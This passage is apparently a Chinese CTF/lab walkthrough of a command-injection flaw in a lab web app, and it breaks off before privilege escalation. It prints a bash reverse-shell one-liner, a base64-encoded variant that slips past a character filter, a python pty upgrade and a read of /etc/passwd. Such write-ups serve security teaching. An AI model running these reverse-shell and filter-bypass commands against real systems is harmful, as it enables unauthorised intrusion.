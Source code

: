 ![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyN0pFBvHIicBjrTxic0mUsCeLFsicqso19lHzyRPdkwLhia2O9kzEMBRrSSAPa7csByN0nKmuIK1IkicPg/640?wx_fmt=png)

发现有两个目录 wish 和 genie 对其进行查看

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyN0pFBvHIicBjrTxic0mUsCeL7xMJickicG61V5FiaCRics5FWTb3UFJe8a6H8wr9LQooh0zFtaY65UpRSA/640?wx_fmt=png)

可能存在系统命令执行漏洞，经过测试，输入 id，成功返回，存在系统命令执行漏洞

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyN0pFBvHIicBjrTxic0mUsCeLh0xQGnwSF2VUDAmmQNkcokqcswiagyFtOsOxLAskRjHw0RgjXAcyzVw/640?wx_fmt=png)

漏洞利用

利用系统命令执行漏洞反弹 shell

Bash 反弹，一直反弹不出来

```
bash -i >& /dev/tcp/192.168.56.104/1234 0>&1
```

猜测是过滤了某些字符

Bypass 一些命令注入限制的姿势

https://xz.aliyun.com/t/3918

https://github.com/swisskyrepo/PayloadsAllTheThings

经过测试，base64 编码就可绕过  

base64 在线编码，解码  

https://www.bt.cn/tools/encrybase.html

nc 监听 1234 端口  

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyN0pFBvHIicBjrTxic0mUsCeLmU0FsADB9mAwxZ3dB1B2dfzZrpYu8AqwWY9iciahjBXrTjZgda5clVdA/640?wx_fmt=png)

执行如下命令：  

```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwMi8xMjM0IDA+JjE=| base64 -d|bash
```

成功反弹 shell，权限是 www-data  

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyN0pFBvHIicBjrTxic0mUsCeL8YuG9nyxX3aQ2kD1qPGBc4eYSFlcaTWYKfjpCO1yNssuCem0WJ47Og/640?wx_fmt=png)

获取 shell 之后要做的第一件事是获取一个 tty，不然有些命令是无法执行的

python 获取 tty

```
python -c 'import pty;pty.spawn("/bin/bash")'  # 有些没有安装Python2，所以需要换成python3 -c
```

查看 etc/passwd 发现有两个用户 sam 和 nitish

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyN0pFBvHIicBjrTxic0mUsCeLAv5EBX1hYMqU5x7thzsYvyz9WEDfBdQZDeicFC5q7aFv9tZ5TSiabq0A/640?wx_fmt=png)在 / home/nitish 目录下找到 user.txt 文件，查看没有权限，无法查看，需要提权  

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyN0pFBvHIicBjrTxic0mUsCeL8v6oEIxSq8EszRLhuIdPicLaanAIyVKYBORficVOUpo5DEJQ5dle4KhA/640?wx_fmt=png)
